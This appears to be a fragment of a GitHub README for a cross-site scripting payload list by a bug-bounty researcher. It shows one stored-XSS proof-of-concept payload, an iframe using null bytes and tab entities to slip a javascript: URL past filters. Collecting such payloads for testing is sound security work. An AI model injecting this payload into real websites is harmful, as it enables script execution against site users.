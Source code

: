### XSS By xtyphonx


##### PoC : 

stored xss PoC


#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : https://hackerone.com/xtyphonx -->


<iframe %00 src="&Tab;javascript:prompt(document.domain)&Tab;"%00>




#### References :
